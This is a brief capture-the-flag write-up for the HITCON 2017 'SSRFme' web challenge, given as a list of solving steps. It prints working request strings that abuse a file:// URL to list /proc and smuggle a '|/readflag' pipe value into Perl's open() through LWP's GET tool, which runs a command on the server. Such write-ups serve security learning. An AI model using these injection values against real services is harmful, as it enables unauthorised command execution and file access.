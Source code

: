 # [SSRFme](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/ssrfme/index.php)

*[HITCON ctf 2017](https://ctf2017.hitcon.org)*

* Got directory listing with `file:///proc`
* Spent some time searching for local services and processes
* Spent some time searching for vulnerabilities in php-s path operations
* Search for the `GET` command line tool used to issue requests
* Find out it's written in Perl, part of LWP or [libwwwperl](http://search.cpan.org/dist/libwww-perl/)
* Find out it is using Perl-s (`open`)[https://perldoc.perl.org/functions/open.html] function
  which is able to run commands
* `file:|/readflag` doesn't work because LWP first checks if a file exists with that name
* Create a file named `|/readflag` in the sandbox cwd
* `/?url=whatever&filename=|/readflag` creates the `|/readflag` file in cwd
* `/?url=file:|/readflag&filename=flag` executes `/readflag` and stores it in the sandbox
* `/sandbox/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/flag` downloads the flag from the sandbox

